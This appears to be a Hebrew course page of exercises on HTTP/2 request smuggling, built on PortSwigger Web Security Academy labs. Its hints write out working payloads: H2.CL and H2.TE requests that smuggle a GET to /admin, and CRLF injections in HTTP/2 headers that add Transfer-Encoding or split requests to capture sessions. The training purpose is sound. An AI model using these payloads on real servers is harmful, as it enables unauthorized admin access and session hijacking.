

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/5 - תקיפות פרוטוקול HTTP/5.2 - תקיפות HTTP2/5.2 - תקיפות HTTP2 - תרגיל/index.html · generator: mkdocs

# תקיפות HTTP/2 - תרגול

## הקדמה

התרגולים מבוססים על מעבדות PortSwigger Web Security Academy בנושא HTTP/2 Request Smuggling. כל המעבדות דורשות שימוש ב-Burp Suite עם תמיכת HTTP/2 (גרסה 2023 ומעלה).

## תרגיל 1 - הברחת H2.CL בסיסית (Practitioner)

**מעבדה:** H2.CL request smuggling

**משימה:**
1. פתחו את המעבדה ב-Burp Suite עם HTTP/2 מופעל
2. שלחו בקשת POST ב-HTTP/2 עם `content-length: 0` ובגוף הבקשה הוסיפו בקשת GET מוברחת
3. הגישו גישה ל-`/admin` דרך ההברחה
4. מחקו את המשתמש `carlos`

**רמז:** ב-Burp Repeater, בחרו HTTP/2 ושלחו:

```
:method: POST
:path: /
:authority: <lab-url>
content-type: application/x-www-form-urlencoded
content-length: 0

GET /admin HTTP/1.1
Host: <lab-url>

```

## תרגיל 2 - הברחת H2.TE (Practitioner)

**מעבדה:** H2.TE request smuggling

**משימה:**
1. שלחו בקשת HTTP/2 עם header `transfer-encoding: chunked`
2. השרת החזיתי לא אמור לאפשר header זו ב-HTTP/2, אבל אם הוא מעביר אותה - יש חולשה
3. הבריחו בקשה ל-`/admin`

**רמז:**

```
:method: POST
:path: /
:authority: <lab-url>
content-type: application/x-www-form-urlencoded
transfer-encoding: chunked

0

GET /admin HTTP/1.1
Host: <lab-url>

```

## תרגיל 3 - CRLF injection בheaders HTTP/2 (Practitioner)

**מעבדה:** HTTP/2 request smuggling via CRLF injection

**משימה:**
1. השתמשו בinjection CRLF בheader HTTP/2 כדי להוסיף header Transfer-Encoding
2. הheader תעבור ל-HTTP/1.1 בתרגום
3. הבריחו בקשה שתלכוד את ה-session של משתמש אחר

**רמז:** ב-Inspector של Burp, ערכו header כך שהערך יכלול `\r\nTransfer-Encoding: chunked`:

```
:method: POST
:path: /
:authority: <lab-url>
foo: bar\r\nTransfer-Encoding: chunked
```

## תרגיל 4 - פיצול בקשות דרך CRLF (Practitioner)

**מעבדה:** HTTP/2 request splitting via CRLF injection

**משימה:**
1. הזריקו CRLF בheader פסאודו כדי לפצל את הבקשה לשתיים
2. הבקשה השנייה צריכה לפנות ל-`/admin`
3. לכדו את התגובה

**רמז:** הזריקו בגוף header HTTP/2:

```
foo: bar\r\n\r\nGET /admin HTTP/1.1\r\nHost: <lab-url>
```
